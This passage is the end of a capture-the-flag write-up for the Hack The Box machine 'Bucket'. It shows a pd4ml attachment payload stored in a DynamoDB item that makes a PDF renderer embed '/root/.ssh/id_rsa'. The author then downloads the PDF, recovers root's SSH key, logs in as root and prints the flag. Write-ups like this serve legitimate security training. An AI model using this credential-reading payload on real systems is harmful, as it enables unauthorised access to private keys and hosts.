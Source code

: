 ```bash
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
{
    "Items": [
        {
            "title": {
                "S": "Ransomware"
            },
            "data": {
                "S": "<html><pd4ml:attachment src=\"file:///root/.ssh/id_rsa\" description=\"attachment sample\" icon=\"Paperclip\"/>"
            }
        }
    ],
    "Count": 1,
    "ScannedCount": 1,
    "ConsumedCapacity": null
}
--2021-04-29 12:43:23--  http://localhost:8000/files/result.pdf
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19338 (19K) [application/pdf]
Saving to: ‘result.pdf.1’

result.pdf.1                                       100%[=============================================================================================================>]  18.88K  --.-KB/s    in 0s      

2021-04-29 12:43:23 (58.1 MB/s) - ‘result.pdf.1’ saved [19338/19338]
```

This outputs a pdf into our local filesystem:

![[Pasted image 20210429124611.png]]

Clicking the paperclip gives us the SSH key!

![[Pasted image 20210429124714.png]]

We can copy and paste and save this key, then SSH in as root:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/ssh]
└─$ ssh -i root_ssh root@10.10.10.212
...[snip]...
root@bucket:~# cat root.txt 
d2d9f1dd102ca4d5bd9b9ebf62e3f604
```

That's the box!

# Tags

#writeup #cloud #web